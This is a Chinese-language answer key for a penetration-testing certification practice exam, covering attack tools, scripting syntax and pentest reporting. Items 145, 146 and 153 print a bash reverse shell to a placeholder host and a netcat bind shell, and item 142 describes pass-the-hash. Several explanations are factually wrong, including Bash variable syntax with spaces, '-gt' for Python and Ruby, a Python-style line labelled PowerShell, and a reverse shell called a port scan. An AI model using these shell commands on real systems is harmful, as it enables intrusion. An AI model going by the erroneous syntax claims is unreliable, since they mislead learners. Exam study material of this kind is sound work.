在此示例中，使用 `nmap` 实用程序运行 TCP SYN 扫描。`nmap 10.0.0.1` 和 `nmap 10.0.0.1 -sS` 均可用于运行此类扫描。

### 42. B

在此示例中，使用 `nmap` 实用程序运行 TCP connect 扫描。`nmap 10.0.0.1 -sT` 命令可用于运行此类扫描。请注意，该命令的输出与 TCP SYN 扫描的输出几乎相同。

### 43. C

在此示例中，使用 `nmap` 实用程序运行 UDP 扫描。`nmap 10.0.0.1 -sU` 命令可用于运行此类扫描。请注意，该命令的输出与 TCP SYN 扫描的输出几乎相同；不过，它列出的是 UDP 端口而不是 TCP 端口。

### 44. A


在此示例中，使用 `nmap` 实用程序运行 TCP ACK 端口扫描。`nmap 10.0.0.1 -sA` 命令可用于运行此类扫描。

### 45. A

在此示例中，使用 `nmap` 实用程序运行 TCP SYN 扫描。但是，包含了 `-v` 选项以增加输出的详细程度。

### 46. C

在此示例中，使用 `nmap` 实用程序运行 UDP 扫描。但是，包含了 `-vv` 选项以大大增加输出的详细程度。

### 47. B

在此示例中，使用 `nmap` 实用程序仅列出可用目标。这是通过使用 `-sL` 选项运行 `nmap` 来完成的。这会导致 `nmap` 列出主机，但不实际扫描它们。

### 48. C

在此示例中，使用 `nmap` 实用程序发现可用目标。这是通过使用 `-sn` 选项运行 `nmap` 来完成的。这会导致 `nmap` 发现主机，但不实际扫描其任何端口。

### 49. A

在此示例中，使用 `nmap` 实用程序扫描 IP 地址范围中列出的 10 个主机上的端口 80。这是通过使用 `-p 80` 选项运行 `nmap` 来完成的。

### 50. C

在此示例中，使用 `nmap` 实用程序扫描命令中列出的主机上的开放端口，然后确定使用这些端口的每个服务的版本。这是通过使用 `-sV` 选项运行 `nmap` 来完成的。

### 51. A 和 D

`whois` 和 `nslookup` 实用程序可用于被动地对目标组织进行侦察。因为它们报告的是公众可获取的信息，所以使用这些工具极不可能引起任何怀疑。

### 52. B 和 C

`nmap` 和 `hping` 实用程序可用于主动枚举和指纹识别目标系统。

### 53. A 和 B

`John the Ripper` 以及 `Cain and Abel` 可用于从离线用户账户数据库（如 Linux 系统中的 `shadow` 和 `passwd` 文件）中破解密码。

### 54. D 和 E

`OWASP ZAP` 以及 `Nessus` 可用于扫描目标漏洞。

### 55. B

`SQLmap` 可用于暴力破解 SQL 数据库的密码。

### 56. A

`Mimikatz` 可用于破坏基于 Kerberos 的认证系统，包括生成“黄金”和“白银” Kerberos 票据。

### 57. A 和 C

`Nikto` 和 `W3AF` 实用程序常用于扫描目标漏洞。

### 58. D 和 E

`Medusa` 和 `Hydra` 实用程序均可用于进行暴力密码攻击。

### 59. B 和 D

`Patator` 和 `Aircrack-ng` 实用程序均可用于进行暴力密码攻击。`Patator` 可用于破坏各种网络服务，如 FTP、SNMP 和 SSH 服务器。`Aircrack-ng` 用于暴力破解无线网络。

### 60. C 和 D

`Empire` 和 `PowerSploit` 实用程序均基于 Windows PowerShell。本质上，它们是一组 PowerShell 脚本，可用于进行各种漏洞利用。

### 61. B

社会工程学工具包（`SET`）是一款开源渗透测试实用程序，旨在实施社会工程学攻击。

### 62. A

浏览器利用框架（`BeEF`）是一款渗透测试实用程序，旨在利用 Web 浏览器中的弱点发起客户端攻击。

### 63. D

`ncat` 实用程序可用于读取、写入、重定向和加密网络数据。例如，它可用于与各种服务器（包括 Windows、Linux 和 UNIX 系统）建立 Shell 会话。

### 64. A 和 B

`IDA` 和 `Hopper` 均可用于反编译。在此过程中，可执行文件被逆向编译为源代码，从而允许你检查其中的漏洞。

### 65. C 和 E

`foremost` 和 `FTK` 均为取证工具。它们用于从网络犯罪现场收集和分析数字证据。

# 练习题答案与解析

## 66. A

虽然 `Nikto` 通常被认为是渗透测试人员使用的漏洞扫描器，但系统管理员也可以用它来验证其网络中的配置合规性，特别是 Web 服务器的配置。

## 67. D

`proxychains` 工具允许你对目标组织执行渗透测试任务，并使生成的网络流量看起来像是来自中间代理系统。

## 68. A 和 D

`APK Studio` 和 `APKX` 都可用于调试甚至反编译 Android 可执行文件。

## 69. A 和 D

`AFL` 和 `Peach` 都可用于作为软件保障的一部分对应用程序进行模糊测试。

## 70. A 和 B

`Findsecbugs` 和 `Yet Another Source Code Analyzer (YASCA)` 都可用于作为软件保障的一部分执行静态应用安全测试（SAST）或动态应用安全测试（DAST）。

## 71. C

`hashcat` 实用程序可配置为使用 GPU 而非 CPU 来执行密码破解操作。这能显著加快进程，因为 GPU 执行此任务的速度比标准 CPU 快得多。

## 72. A 和 E

大量登录失败尝试是渗透测试人员正在使用暴力破解密码工具获取系统访问权限的明确迹象。`Hydra` 和 `Medusa` 实用程序都能运行暴力破解攻击。

## 73. B

此输出由 `Medusa` 实用程序创建。Medusa 是一种暴力破解密码工具，它向给定用户账户（本例中为 administrator）发送一个接一个的密码，希望找到正确的密码。

## 74. B

`CeWL` 实用程序可配置为爬取目标组织的网站，收集可能被员工用作密码的关键字，并将它们保存到列表中。该列表随后可用于运行暴力破解密码攻击。

## 75. D

`Dirbuster` 实用程序是一种暴力破解工具，渗透测试人员可用它来发现 Web 服务器或应用程序服务器上的目录和文件，包括隐藏文件或目录。

## 76. A

此输出由 `John the Ripper` 创建。此凭据测试工具是一种暴力破解密码实用程序。在本例中，发现了 root 用户的密码（toor）。

## 77. A

此输出由 `whois` 实用程序创建。此 OSINT 工具用于收集关于目标组织域的公开信息。

## 78. D 和 E

你可以使用 `Kismet` 或 `WiFite` 尝试破解目标组织的无线网络。也可以使用 `Aircrack-ng` 完成此任务。

## 79. B 和 C

你可以使用 `Burp Suite` 或 `OWASP ZAP`。这两个工具都可用于拦截运行 Web 浏览器的用户与目标组织 Web 应用程序服务器之间流动的网络流量。通过代理连接，渗透测试人员可以读取拦截流量的内容。

## 80. A

`netcat` 实用程序可用于建立反向 Shell 漏洞利用，允许测试人员远程控制受损系统。

## 81. D

`ncat` 实用程序是旧版 `netcat` 实用程序的更新和改进版本。

## 82. A 或 B

`ncat` 或 `netcat` 远程访问工具均可用于建立绑定 Shell 漏洞利用。

## 83. C

`Drozer` 实用程序提供了一个完整的安全审计和攻击框架，专为运行 Android 操作系统的移动设备设计。

## 84. B

`APK Studio` 是一种可用于逆向工程 APK 可执行文件并分析其漏洞的工具。

## 85. A

`Android APK Decompilation for the Lazy (APKX)` 是一个 Python 包装器，可直接从 Android APK 可执行文件中提取 Java 源代码。

## 86. D

`searchsploit` 实用程序是一种命令行搜索工具，用于查询在线 Exploit-DB 数据库以查找已知漏洞利用。

## 87. D

`responder` 实用程序可用于实施 LLMNR 和 NBT-NS 投毒，潜在地允许渗透测试人员将客户端重定向到其笔记本电脑，并以用户名和哈希密码的形式捕获其凭据。

## 88. C

`impacket` 渗透测试工具由一组 Python 类组成，用于对网络协议（如 SMB 和 MSRPC 协议）进行低级访问。

## 89. A

`Metasploit Framework (MSF)` 渗透测试工具提供大量可用于攻破目标组织网络的漏洞利用。

## 90. B 和 D

声明变量时，`Bash` 和 `Python` 使用相同的语法：`variable_name = value`。

## 91. A 和 C

声明变量时，`PowerShell` 使用 `$variable_name = value` 语法。

`Ruby` 在声明*全局*变量时使用相同的语法。

## 92. C

声明*局部*变量时，`Ruby` 使用 `_variable_name = value` 语法。

## 93. C 和 D

声明数组时，`Ruby` 和 `Python` 使用相同的语法：`array_name = [value1, value2, value3, ...]`。

## 94. B

声明数组时，`Bash` 使用以下语法：`array_name = (value1, value2, value3, ...)`。

## 95. A

声明数组时，`PowerShell` 使用以下语法：`$array_name = @(value1, value2, value3, ...)`。

## 96. B

引用变量值时，`Bash` 使用以下语法：`{$variable_name}`。在本例中，`echo` 命令被告知在屏幕上显示名为 `ServerName` 的变量的值。

## 97. B

引用数组中的值时，`Bash` 使用以下语法：`{$array_name[position]}`。在本例中，`echo` 命令被告知在屏幕上显示名为 `PrimeNumArray` 的数组的第二个值。

## 98. A

引用数组中的值时，`PowerShell` 使用以下语法：`$array_name[position]`。在本例中，`echo` 命令被告知在屏幕上显示名为 `PrimeNumArray` 的数组的第二个值。

## 99. D

引用数组中的值时，`Python` 使用以下语法：`(array_name[position])`。在本例中，`print` 命令被告知打印名为 `PrimeNumArray` 的数组的第二个值。

## 100. C

引用数组中的值时，`Ruby` 使用以下语法：`array_name[position]`。在本例中，`puts` 命令被告知使用名为 `PrimeNumArray` 的数组的第二个值。

## 101. A

在 Bash 脚本中创建关联数组时，使用以下语法：`array_name[element_name] = value`。

在本例中，`Target[HostName] = FS1` 这一行将值 `FS1` 赋给 `Target` 数组中名为 `HostName` 的元素。

## 102. D

在 Ruby 脚本中创建关联数组时，使用以下语法：`_array_name = {"element_name" => "value"}`。

在本例中，`_Target = {"HostName" => "FS1"}` 这一行将值 `FS1` 赋给 `Target` 数组中名为 `HostName` 的元素。

## 103. C

在 PowerShell 脚本中创建关联数组时，使用以下语法：`$array_name.element_name = "value"`。

在本例中，`$Target.HostName = 'FS1'` 这一行将值 `FS1` 赋给 `Target` 数组中名为 `HostName` 的元素。

## 104. B

在 PowerShell 脚本中创建关联数组时，使用以下语法：`array_name = [{"element_name":"value"}]`。

在本例中，`Target = [{"HostName":"FS1"}]` 这一行将值 `FS1` 赋给 `Target` 数组中名为 `HostName` 的元素。

## 105. B

在 Ruby 脚本中比较两个值以查看它们是否相等时，使用 `==` 关系运算符。

## 106. A 和 D

在 Python 脚本中比较两个值以查看它们是否不相等时，可以使用 `<>` 或 `!=` 关系运算符。

## 107. B

在 Python 脚本中比较两个值以查看它们是否相等时，使用 `==` 关系运算符。

## 108. C

在 PowerShell 脚本中比较两个值是否相等时，使用 `-eq` 关系运算符。

## 109. C

在 Bash 脚本中比较两个整数值以查看其中一个是否大于另一个时，使用 `-gt` 关系运算符。

## 110. A

`-gt` 关系运算符可同时用于 Python 和 Ruby，以测试一个值在数值上是否大于另一个值。

## 111. C

`-ge` 关系运算符可同时用于 Bash 和 PowerShell，以测试一个值在数值上是否大于或等于另一个值。

## 112. B

`-gt` 关系运算符可同时用于 Bash 和 PowerShell，以测试一个值在数值上是否大于另一个值。

## 113. A

`>=` 关系运算符可同时用于 Python 和 Ruby，以测试一个值在数值上是否大于或等于另一个值。

## 114. B

`-lt` 关系运算符可同时用于 Bash 和 PowerShell，以测试一个值在数值上是否小于另一个值。

## 115. D

`<` 关系运算符可同时用于 Python 和 Ruby，以测试一个值在数值上是否小于另一个值。

## 116. C

`-le` 关系运算符可同时用于 Bash 和 PowerShell，以测试一个值在数值上是否小于或等于另一个值。

## 117. A

`<=` 关系运算符可同时用于 Python 和 Ruby，以测试一个值在数值上是否小于或等于另一个值。

## 118. B

在 Bash 脚本中添加 `read TargetHost` 行，会使其接受用户在命令行输入的内容，并将其赋值给名为 `TargetHost` 的变量。

## 119. A

在 Bash 脚本中添加 `echo $TargetHost` 行，会使其在屏幕上显示名为 `TargetHost` 的变量的值。

## 120. C

`test` 命令可用于 `if/then` 流控制结构中，以评估指定条件是否为真。

## 121. A

Ruby 中的 `if/then` 流控制结构使用以下语法：

```
if condition
  commands...
else
  commands...
end
```

## 122. B

PowerShell 中的 `if/then` 流控制结构使用以下语法：

```
if condition {
  commands...
} Else {
  commands...
}
```

## 123. C

Bash 中的 `if/then` 流控制结构使用以下语法：

```
if condition then
  commands...
else
  commands...
fi
```

## 124. E

`case` 结构是评估用户多项选择并运行相应命令集的最佳选项。

## 125. A

`while` 循环将持续处理，直到指定条件评估为 false。

## 126. D

`if/then/else` 结构被视为流控制结构，因为它根据指定条件的评估结果，将脚本分支导向多个方向之一。

## 127. C

`until` 循环结构将持续处理，只要指定条件评估为 false。

## 128. B

`for` 循环结构将处理指定的次数。

## 129. D

在 PowerShell 脚本中添加 `$TargetHost = read-host -Prompt` 行，会使其接受用户在命令行输入的内容，并将其赋值给名为 `TargetHost` 的变量。

## 130. A

在 PowerShell 脚本中添加 `echo $TargetHost` 行，会使其在屏幕上显示名为 `TargetHost` 的变量的值。

## 131. C

在 Ruby 脚本中添加 `TargetHost = gets` 行，会使其接受用户在命令行输入的内容，并将其赋值给名为 `TargetHost` 的变量。

## 132. D

在 Ruby 脚本中添加 `puts TargetHost` 行，会使其在屏幕上显示名为 `TargetHost` 的变量的值。

## 133. A

在 Python 脚本中添加 `TargetHost = input('Please enter a hostname:')` 行，会使其接受用户在命令行输入的内容，并将其赋值给名为 `TargetHost` 的变量。

## 134. B

在 Ruby 脚本中添加 `print (TargetHost)` 行，会使其在屏幕上显示名为 `TargetHost` 的变量的值。

## 135. B

`#!/bin/bash` 元素必须包含在每个 Bash shell 脚本的开头。

## 136. A and E

可以输入 `/bin/bash ~/myexploit` 或 `chmod u+x ~/myexploit` 来使脚本可执行。

## 137. B

`declare –i TOTAL` 命令将创建 `TOTAL` 变量并将其类型设为 `integer`。

## 138. C

在 Bash 脚本中添加 `tail /var/log/firewall 1> lastevents 2> &1` 命令，将把 stdout 和 stderr 都发送到同一个文件。

## 139. D


Responder 是一个工具包，用于响应网络上 Windows 系统的 NetBIOS 查询。Responder 在利用 NetBIOS 响应时是一个强大的工具。它可以针对单个系统或整个本地网络，允许你分析或响应 NetBIOS 名称服务，伪装成查询目标的系统。

## 140. C and E

有多种工具可协助此 OSINT 收集：

- **Censys** 是一个基于 Web 的工具，可探测互联网上的 IP 地址，并通过搜索引擎为渗透测试人员提供访问权限。
- **Fingerprinting Organizations with Collected Archives (FOCA)** 是一个开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。
- **Maltego** 是一个商业产品，可协助可视化从 OSINT 工作中收集的数据。
- **nslookup** 工具有助于识别与组织关联的 IP 地址。`Recon-ng` 是一个模块化的 Web 侦察框架，用于组织和管理 OSINT 工作。
- **Shodan** 是一个专门的搜索引擎，可从公开来源发现易受攻击的物联网 (IoT) 设备。
- **theHarvester** 在搜索引擎和其他资源中搜寻，以查找有关组织的电子邮件地址、员工姓名和基础设施详细信息。`whois` 工具从公共记录中收集关于域名所有权的信息。

## 141. B

在凭据暴力破解攻击中，测试人员将尝试使用每个用户名和密码登录应用程序。`Hydra` 是一种暴力破解工具，可通过密码猜测破解系统。

## 142. C

在此场景中，测试人员正在使用 Metasploit `PSEXEC` 模块。使用 Metasploit，测试人员可以利用系统并执行哈希转储以提取系统哈希。然后测试人员可以使用 `PSEXEC` 模块将哈希传递给网络上的另一个系统。示例展示了如何设置 `SMBPASS` 选项并执行传递哈希攻击，从而访问网络中的远程系统。传递哈希攻击是一种利用方式，测试人员获取经过哈希处理的用户凭据，在不破解的情况下重复使用它，欺骗身份验证系统在同一网络上创建新的经过身份验证的会话。

## 143. C

通过从命令行运行 `msfconsole` 启动 Metasploit。`msfconsole` 命令位于 `/usr/share/metasploit-framework/msfconsole` 目录中。

## 144. B

`Mimikatz` 是一个开源实用程序，可使用其 `sekurlsa` 模块从 Windows 本地安全机构子系统服务 (LSASS) 查看凭据信息，其中包括明文密码和 Kerberos 票证，随后可用于传递哈希和传递票证攻击。然而，在此场景中，问题陈述为“over the wire”（通过网络传输）。`Mimikatz` 是唯一无法以该方式使用的工具。

## 145. A

反向 Shell 在端口上打开通信通道并等待传入连接。客户端机器充当服务器并发起到测试人员机器的连接。这是通过以下方式完成的：

```
bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1
```

## 146. A

在 bash shell 中，可以打开网络套接字以传递数据。TCP 套接字可使用 `/dev/tcp/<host>/<port>` 打开。Bash 尝试打开到相应套接字的 TCP 连接。因此，在此示例中，已执行端口扫描。

代码细分如下：

- `/bin/bash -i` 调用交互式 bash shell。
- `> &/dev/tcp/<host>/<port>` 将该 shell 通过管道传输给测试者。
- `0<&1 2>&1` 获取标准输入并将其连接到标准输出。然后指定对标准错误 (2>) 执行相同操作。

## 147. C

`Hydra` 旨在支持将 NTLM 哈希作为密码。`Hashcat` 是密码破解和恢复工具。`Drozer` 是 Android 安全评估框架。`Kismet` 是 802.11 第 2 层无线网络探测器、嗅探器和入侵检测系统。`Hydra` 通常称为 `thc-hydra`，是一种暴力字典攻击工具，旨在针对多种协议和服务工作。

## 148. A

浏览器利用框架 (BeEF) 专为此类攻击设计。`BeEF` 提供自动化工具包，利用社会工程学接管客户端的 Web 浏览器。测试人员随后可使用各种网络钓鱼和社会工程学技术，诱导员工访问该站点。

## 149. A

自定义词表 (CeWL) 生成器是一款 Ruby 应用程序，允许测试人员根据 URL 和深度设置抓取网站，然后根据发现的文件和网页生成词表。针对目标组织的网站运行 `CeWL` 有助于生成自定义词表。如果您已收集大量关于目标组织的信息，构建自定义词表将特别有用。

## 150. A

在此场景中，给定的 PowerShell 命令将执行远程脚本。通过使用 PowerShell `IEX` 命令，它将调用一个表达式。`IEX` cmdlet 将指定字符串作为命令进行求值或运行，并返回表达式或命令的结果。PowerShell `Invoke-Command` cmdlet 在本地或远程计算机上运行命令，并返回来自命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，您可以在多台计算机上运行命令。

## 151. A

网络映射器 (Nmap) 通过发送数据包并分析响应，用于发现计算机网络上的主机和服务。`Nmap` 将识别客户端系统上运行的设备，发现可用的主机和服务，查找开放端口，并检测安全风险。在此场景中，组织未禁用 Telnet，因为端口 23 仍处于开放状态。Telnet 是一种基于可靠面向连接传输的客户端-服务器协议。通常，此协议通过使用端口 23 建立到传输控制协议 (TCP) 的连接，此时 Telnet 服务器应用程序 (telnetd) 正在监听。

## 152. C

`Hping` 是一款命令行工具，允许测试人员生成网络流量。`Hping` 广受欢迎，因为它允许您创建自定义数据包。在此场景中，您将向 TCP 端口 80 发送 TCP SYN。`-S` 开关要求 hping 发送 SYN 流量，`-V` 开关为详细模式，`-p` 开关指示端口。

## 153. A

`Netcat` 可在几秒钟内设置 Telnet 服务器。您可以使用 `-e` 参数指定 Netcat 在成功连接时要运行的 shell。在此场景中，正确的语法应为 `nc -lp 444 -e /bin/bash`。`nc -` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：

- `-l`：监听模式，用于入站连接
- `-p`：指定用于监听连接的端口
- `-e`：指定端口连接后要运行的程序 (cmd.exe)
- `-v`：指定详细模式，在标准错误上打印消息，例如连接发生时

## 154. A

`nmap` 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供广泛的功能，包括旨在绕过防火墙和其他网络保护设备的多种扫描模式。`nmap` 是一款端口扫描器。要扫描端口，您需要使用 `-p <port ranges>`（仅扫描指定端口）。此选项指定要扫描的端口并覆盖默认扫描。可接受单个端口号或范围。范围用连字符分隔（例如 `1-1023`）。范围的开始和/或结束值可省略，导致 nmap 分别使用 1 和 65535。因此，您可以指定 `-p-` 以扫描 1 到 65535 端口。对系统进行端口扫描只需安装 nmap 并提供目标系统的主机名或 IP 地址。

## 155. D

被动侦察也称为开源情报 (OSINT)。被动侦察的理念是仅使用公开可用的资源收集有关目标的信息。`Shodan` 是一款专业搜索引擎，通过使用各种过滤器，提供对连接到互联网的特定类型计算机和设备的发现。`Peach` 是一款模糊测试工具，`OpenVAS` 执行网络漏洞扫描，`CeWL` 是一款自定义词表生成器，可搜索网站以查找可能用于密码猜测攻击的关键字。

## 156. D 和 F

在此场景中，最佳选项是 SSH 和 Wireshark。安全外壳 (SSH) 在系统之间提供安全的加密连接。`SSH` 通过加密连接提供远程 shell 访问。`SSH` 用于对系统的安全命令行访问，通常通过 TCP 端口 22，并存在于各类设备和系统上。由于 `SSH` 非常普遍，测试提供 SSH 服务的系统对渗透测试人员来说是一个非常有吸引力的选择。`Wireshark` 是一款协议分析器，允许渗透测试人员窃听和剖析网络流量。`Wireshark` 还允许从无线网络捕获网络流量。

## 157. B 和 C

鉴于此场景，脚本中不需要包含单词 `let`，因此可以将其移除；在 Bash 中，等同于 `=` 的是 `-eq`，即算术二元运算符。完成这些修改后，脚本将按预期工作。

## 158. A

PowerShell 在赋值操作中要求在数组名称前使用 `$`。数组的元素随后作为逗号分隔的列表提供。选项 B 适用于 Bash，选项 C 适用于 Ruby 或 Python，选项 D 不符合 PowerShell 命令的正确语法。PowerShell 在声明和使用变量方面要简单得多。您只需记住在变量名前加上 `$`，无论是用于设置、更改还是检索存储在该变量中的值。

## 159. A

测试人员将需要创建一个 Netcat 监听器，等待来自目标机器的入站 shell。要获取 shell，Netcat 使用 `nc -nvlp 443` 监听传入连接。使用此语法，测试人员是在告诉 Netcat (nc) 不解析名称 (`-n`)、详细打印连接发生时的信息 (`-v`)，并在给定的本地端口 (`-p`) 上监听 (`-l`)。

## 160. D

在此场景中，问题明确指出“名称解析请求”。在这种情况下，`Responder` 是最佳选择。`Responder` 是一款工具包，用于响应网络上 Windows 系统的 NetBIOS 查询。`Tcpdump` 是一种数据包分析器软件实用程序，用于监控和记录网络与执行它的计算机之间传递的 TCP/IP 流量。`Ettercap` 是一款免费开源的网络安全工具，用于局域网中间人攻击。`Medusa` 是一款暴力登录攻击工具，支持多种协议和服务。

# 试题与解析

## 161. A and F

`nmap` 最著名的功能之一是使用 TCP/IP 协议栈指纹识别进行远程操作系统检测。`Nmap` 向远程主机发送一系列 TCP 和 UDP 数据包并检查响应。

- `-iL <inputfilename>`：从主机/网络列表文件中读取输入。
- `-sV`：探测开放端口以确定服务/版本信息。

## 162. D

`Metasploit` 是一个用于开发漏洞利用代码并在实时目标上对其进行测试的工具。`socks4a` auxiliary 是框架内的一个模块。该辅助模块提供了一个代理服务器，它使用 Metasploit Framework 路由来中继连接。因此，使用 `use auxiliary/server/socks4a` 模块允许测试人员从互联网访问私有网络。

## 163. A

`Impacket` 是一组用于处理网络协议的 Python 类集合。`Impacket` 提供了广泛的工具，包括在捕获哈希值后使用哈希值进行身份验证的能力。Metasploit 的 SMB 捕获模式、`Responder` 和 `Wireshark` 都可以从广播中捕获 SMB 哈希值，但在此场景中，你还需要在捕获消息后使用哈希值进行身份验证的能力。

## 164. B

使用 `nmap` 的基本功能非常简单。对系统进行端口扫描只需要安装 nmap 并提供目标系统的主机名或 IP 地址。默认情况下，`nmap` 会针对 TCP 和 UDP 扫描 1,000 个最常用的端口。然而，TCP 和 UDP 服务可用的完整端口范围是 1–65,535。

## 165. B

在此场景中，我们使用的是条件执行，因此只会执行一个子句。在这种情况下，`if` 子句后面的代码将执行，导致 `elif` 或 `else` 子句无法执行。条件执行允许开发人员编写仅在满足特定逻辑条件时才执行的代码。最常见的条件执行结构是 `if..then..else` 语句。

## 166. B

`Shodan` 是一个流行的安全搜索引擎，提供预构建的搜索以及针对工业控制系统、数据库和其他常见搜索查询的搜索类别。`Shodan` 是一个搜索引擎，允许用户使用各种过滤器查找连接到互联网的特定类型的计算机和设备。有人将其描述为服务横幅的搜索引擎，服务横幅是服务器发回给客户端的元数据。使用 `Shodan` 进行渗透测试需要一些横幅的基础知识，包括 HTTP 状态码。

## 167. A

与 `Shodan` 非常相似，`Censys` 是一个面向安全的搜索引擎。当你在 `Censys` 中深入挖掘一个主机时，如果可用，你还将发现 geoIP 信息，以及该主机暴露的服务的综合摘要，提供更详细的信息。GeoIP 是指通过识别计算机终端的 IP 地址来定位该终端地理位置的方法。

## 168. C

`Sqlmap` 是一个开源工具，用于自动化针对带有数据库后端的 Web 应用程序的 SQL 注入攻击。`Sqlmap` 是一个常用的开源数据库漏洞扫描器，允许安全管理员探测 Web 应用程序的数据库漏洞。对于此场景，`Sqlmap` 是一个专用的数据库漏洞扫描器，是最合适的工具。

# 第 5 章：报告与沟通

## 1. B

当你对渗透测试的数据进行标准化时，你会聚合测试期间使用的所有不同工具和流程生成的所有数据，并对其进行格式化，使其保持一致且相关联。目标是让客户能够阅读聚合后的数据，并了解测试期间发生了什么以及发生的时间。

## 2. D

你为渗透测试编写的最终报告应包含一个名为“方法论”的部分。在该部分中，你描述用于进行测试的渗透测试方法论。在此场景中，这将是指明遵循了 PCI DSS 标准来进行测试的合适位置。

## 3. A

除其他外，术语**情境感知** 是指客户和测试人员之间关于客户网络安全状况的共享理解状态。

## 4. C

术语**去冲突** 是指客户和测试人员之间的沟通过程，旨在确定渗透测试期间检测到的攻击是来自授权的渗透测试人员，还是来自某个第三方黑客发起的真实攻击。

## 5. B

术语**降级** 是指客户和测试人员之间的沟通过程，旨在停止渗透测试期间使用的漏洞利用，因为它们可能对网络产生不利影响。

## 6. A

除其他外，术语**情境感知** 是指渗透测试团队所有成员之间的共同理解状态，以确保每个团队成员都知道其他成员在做什么。

## 7. A

除其他外，术语**情境感知** 是指渗透测试团队所有成员之间的共同理解状态，以确保测试活动协调在适当的时间发生。

## 8. B

术语**降级** 是指客户和测试人员之间的沟通过程，旨在降低渗透测试期间使用的漏洞利用的强度，因为它们可能对网络产生不利影响。

## 9. C

术语**去冲突** 是指客户和测试人员之间的沟通过程，旨在确定渗透测试期间检测到的攻击是来自授权的渗透测试人员，还是来自某个第三方黑客发起的真实攻击。

## 10. C

除其他外，术语**情境感知** 是指渗透测试团队所有成员之间的共同理解状态，以确保测试活动经过计划和协调，在适当的时间发生。

## 11. B

术语**去冲突** 是指客户和测试人员之间的沟通过程，旨在确定渗透测试期间检测到的攻击实际上是授权渗透测试的一部分，还是由第三方黑客发起的。

## 12. D

术语**降级** 是指客户和测试人员之间的沟通过程，旨在降低漏洞利用的强度，甚至完全停止它们，因为它们可能导致不安全的情况。

## 13. B

术语**可信代理** 是指目标组织内部的个人，通常是 IT 管理员或经理，他与渗透测试人员有直接的沟通渠道。该个人通常负责客户和测试人员之间的去冲突和降级沟通。

## 14. A

**阶段** 通信触发器发生在渗透测试从一个阶段进展到另一个阶段时。

## 15. B

**关键发现** 通信触发器发生在渗透测试人员发现一个非常严重的安全漏洞时，必须立即解决，而不是等到测试完成。

## 16. D

**先前妥协指标** 通信触发器发生在渗透测试人员发现网络或系统之前已被另一个攻击者攻破时。在这种情况下，测试人员通常会立即将发现告知客户，而不是等到测试完成。

## 17. D

**阶段** 通信触发器发生在渗透测试从一个阶段进展到另一个阶段时。

## 18. B

**先前妥协指标** 通信触发器发生在渗透测试人员发现网络或系统之前已被另一个攻击者攻破时。在这种情况下，测试人员通常会立即将发现告知客户，而不是等到测试完成。

## 渗透测试报告与通信触发器

### 通信触发器类型

**19. B.** 当渗透测试人员发现一个严重到必须立即处理、而不能等到测试完成的安全漏洞时，会触发 `critical findings` 通信。

**20. C.** 当渗透测试从一个阶段进展到另一个阶段时，会触发 `stages` 通信。

**21. B.** 当渗透测试人员发现一个严重到必须立即处理、而不能等到测试完成的安全漏洞时，会触发 `critical findings` 通信。

**22. A.** 当渗透测试人员发现网络或系统此前已被其他攻击者攻破时，会触发 `indicator of prior compromise` 通信。在这种情况下，测试人员通常会立即将发现告知客户，而不等测试完成。

### 目标重新确定优先级

**23. B.** `Goal reprioritization` 是指客户或测试人员决定在测试开始后，将渗透测试的重点从商定的范围中更改。在本场景中，PCI DSS 测试被修改为包含针对新型勒索软件的漏洞测试。

**24. A.** `Goal reprioritization` 是指客户或测试人员决定在测试开始后，将渗透测试的重点从商定的范围中更改。在本场景中，向传统的灰盒测试中添加了黑盒测试组件。

### 数据标准化

**25. B.** 当你对渗透测试的数据进行标准化时，你会聚合测试期间使用的所有不同工具和流程生成的所有数据，并将其格式化，使其保持一致且易于理解。

### 报告章节结构

**26. B.** 在完成渗透测试后创建书面调查报告时，应在 **Methodology** 章节中说明测试所使用的标准或指南。在本例中，你会告知读者你使用了 `NIST 800-115` 方法论。

**27. A.** 在完成渗透测试后创建书面调查报告时，应在 **Executive Summary** 中提供测试及结果的高层摘要。通常这是报告的第一部分，面向非技术受众。


## 渗透测试报告章节

**28. D.** 在完成渗透测试后创建书面调查报告时，应在 `Metrics and Measures` 章节中报告风险评级。这些评级使读者能够确定风险优先级，并对不同时间进行的渗透测试进行比较。

**29. A.** 在完成渗透测试后创建书面调查报告时，应在 `Executive Summary` 中提供测试及结果的高层摘要。通常这是报告的第一部分，面向非技术受众。

**30. B.** 在完成渗透测试后创建书面调查报告时，应在 `Methodology` 章节中说明测试所使用的标准或指南。在本例中，你会告知读者你使用了 `EC-Council’s CEH` 方法论。

**31. C.** 在完成渗透测试后创建书面调查报告时，应在报告的 `Findings and Remediation` 章节中列出发现的漏洞，以及发现它们的方法。

**32. C.** 在完成渗透测试后创建书面调查报告时，应在报告的 `Findings and Remediation` 章节中列出发现的漏洞、发现方法，以及客户可以采取的修复措施。在本例中，你应建议他们在该章节安装微软的 `MS17-010 – Critical` 更新。

**33. D.** 在完成渗透测试后创建书面调查报告时，应在 `Metrics and Measures` 章节中报告风险评级。这些评级使读者能够确定风险优先级，并对不同时间进行的渗透测试进行比较。

**34. E.** 在完成渗透测试后创建书面调查报告时，应在 `Conclusion` 章节中报告建议。

**35. C.** 书面调查报告中 `Findings and Remediation` 章节包含的信息通常受限于客户的风险偏好。例如，风险偏好较高的组织可能只希望你包含高危或严重漏洞的信息，而不报告中低危漏洞。

**36. E.** 在完成渗透测试后创建书面调查报告时，应在 `Conclusion` 章节中报告建议，包括何时认为客户应进行后续渗透测试。

## 报告存储与销毁

**37. D.** 渗透测试完成后，通常没有法律强制规定报告的保存时间。你需要保存客户报告的时间通常由与客户的合同约定。

**38. D.** 书面调查报告包含高度敏感信息，因此应安全处理。不应以容易被盗取的方式存储。在本场景中，将报告存储在文件服务器的加密文件中，比其他列出的选项更难被盗取。

**39. A.** 书面调查报告包含高度敏感信息，因此应安全处理。不应以容易被盗取的方式存储。在本场景中，将报告纸质副本存放在固定在地板上的锁式文件柜中，比其他列出的选项更难被盗取。

**40. A.** 书面调查报告包含高度敏感信息，因此应安全处理。不应以容易被盗取的方式存储。在本场景中，将文件刻录到光盘并存放在保险柜中，比其他列出的选项更难被盗取。

**41. B.** 书面调查报告包含高度敏感信息，因此应安全处理。不应以容易被盗取的方式存储。在本场景中，将文件保存到加密 U 盘并存放在保险柜中，比其他列出的选项更难被盗取。

